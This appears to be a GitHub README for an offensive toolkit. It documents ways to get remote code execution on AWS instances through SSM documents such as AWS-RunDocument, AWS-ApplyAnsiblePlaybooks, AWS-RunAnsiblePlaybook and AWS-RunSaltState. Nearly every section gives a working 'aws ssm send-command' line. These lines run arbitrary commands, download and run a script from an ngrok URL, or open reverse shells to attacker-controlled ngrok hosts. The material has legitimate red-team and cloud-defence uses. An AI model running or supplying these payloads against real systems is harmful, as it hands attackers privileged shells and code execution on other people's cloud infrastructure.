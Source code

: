 # fun-with-ssm

Getting RCE with SSM documents other than AWS-RunShellScript or AWS-RunPowerShellScript. Useful in an AWS post-exploitation scenario where you have the permission ssm:SendCommand, but you can't use the mentioned documents. Don't forget, everything is executed under high privielges.

# Usage

Repository structure:
- `/`: Folders with the name of the documents
- `/${document-name}`: Contains OS subfolders (windows, linux or cross-platform)
- `/${document-name}/${os-subfolder}`: Contains the payloads available

All the payloads are parametereized. Below you can find examples on how to use them.

##  AWS-RunDocument

Downloads an SSM document from remote location and executes it on the remote host.

### cross-platform/Execute-Commands

Type: Arbitrary command execution

Target OS: Linux and Windows

Parameters:
- `commands`: Array of strings with commands to execute on the remote system
  - Mandatory: yes
- `workingDirectory`: Directory where command to be executed
  - Mandatory: no
  - Default value: .
  
Usage:

```bash
aws ssm send-command --document-name "AWS-RunDocument" \
  --instance-id i-06ae9883fe6e5d721 \
  --parameters '{"sourceType":["GitHub"],"sourceInfo":["{\"owner\":\"saw-your-packet\", \"repository\":\"aws-tests\", \"path\":\"Execute-Command\",\"getOptions\":\"branch:main\"}"],"documentParameters":["{\"commands\":[\"ls\",\"whoami\"],\"workingDirectory\":\"/tmp\"}"]}'
```

### cross-platform/Download-and-Execute

Type: Executes file from remote server

Target OS: Linux and Windows

Parameters:
- `url`: Full download URL of the file. Needs to include the file's name.
  - Mandatory: yes
- `name`: File's name
  - Mandatory: yes
- `destination`: Location where the file to be saved
  - Mandatory: yes
  
Usage:

```bash
aws ssm send-command --document-name "AWS-RunDocument" \
  --instance-id i-0972f048bf66a424b \
  --parameters '{"sourceType":["GitHub"],"sourceInfo":["{\"owner\":\"saw-your-packet\", \"repository\":\"fun-with-ssm\", \"path\":\"AWS-RunDocument/cross-platform/Download-and-Execute\",\"getOptions\":\"branch:main\"}"],"documentParameters":["{\"url\":\"https://b402-188-27-132-214.eu.ngrok.io/script.ps1\",\"name\":\"script.ps1\", \"destination\":\"C:/\"}"]}'
```

###  linux/Reverse-Shell-Python

Type: Parameterized reverse shell using python

Target OS: Linux

Parameters:
- `host`: Attacker's host 
  - Mandatory: yes 
- `port`: Attacker's port
  - Mandatory: no
  - Default value: 4444

Usage:

```bash
aws ssm send-command --document-name "AWS-RunDocument" \
  --instance-id i-06ae9883fe6e5d721 \
  --parameters '{"sourceType":["GitHub"],"sourceInfo":["{\"owner\":\"saw-your-packet\", \"repository\":\"fun-with-ssm\", \"path\":\"AWS-RunDocument/linux/Reverse-Shell-Python\",\"getOptions\":\"branch:main\"}"], "documentParameters":["{\"host\":\"2.tcp.eu.ngrok.io\",\"port\":\"11448\"}"]}'
```

## AWS-ApplyAnsiblePlaybooks

Installs Ansible, downloads an Ansible Playbook from a remote location and executes it on the remote host.

### linux/reverse_shell.yml

Type: Parameterized reverse shell using bash TCP

Target OS: Linux

Parameters:
- `host`: Attacker's host 
  - Mandatory: yes 
- `port`: Attacker's port
  - Mandatory: yes

Usage:

```bash
aws ssm send-command --document-name "AWS-ApplyAnsiblePlaybooks" \
  --instance-id i-0ecad5485f77f18f4 \
  --parameters '{"SourceType":["GitHub"],"SourceInfo":["{\"owner\":\"saw-your-packet\", \"repository\":\"fun-with-ssm\",\"path\":\"AWS-ApplyAnsiblePlaybooks/linux/\", \"getOptions\":\"branch:main\"}"],"InstallDependencies":["True"],"PlaybookFile":["reverse_shell.yml"],"ExtraVariables":["host=6.tcp.eu.ngrok.io port=13012"]}'
```

## AWS-RunAnsiblePlaybook

Downloads an Ansible Playbook from a remote location and executes it on the remote host. Ansible needs to be already installed.

### linux/reverse_shell.yml

Type: Parameterized reverse shell using bash TCP

Target OS: Linux

Parameters:
- `host`: Attacker's host 
  - Mandatory: yes 
- `port`: Attacker's port
  - Mandatory: yes
  
Usage:

```bash
aws ssm send-command --document-name "AWS-RunAnsiblePlaybook" \
  --instance-id i-0ecad5485f77f18f4 \
  --parameters '{"playbookurl":["https://raw.githubusercontent.com/saw-your-packet/fun-with-ssm/main/AWS-RunAnsiblePlaybook/linux/reverse_shell.yml"],"extravars":["host=7.tcp.eu.ngrok.io port=14355"]}'
```

## AWS-RunSaltState

Download a Salt State from a remote location and executes it on the remote host. Requires Salt Stack to be already installed.

### linux/reverse_shell.yml

Type: Parameterized reverse shell using bash TCP

Target OS: Linux

Parameters:
- `host`: Attacker's host 
  - Mandatory: yes 
- `port`: Attacker's port
  - Mandatory: yes

Usage:

```bash
aws ssm send-command --document-name AWS-RunSaltState \
  --instance-id i-06ae9883fe6e5d721 \
  --parameters '{"stateurl":["https://raw.githubusercontent.com/saw-your-packet/fun-with-ssm/main/AWS-RunSaltState/linux/reverse_shell.yml"], "pillars":["{\"host\":\"7.tcp.eu.ngrok.io\", \"port\":\"14460\"}"]}'
```
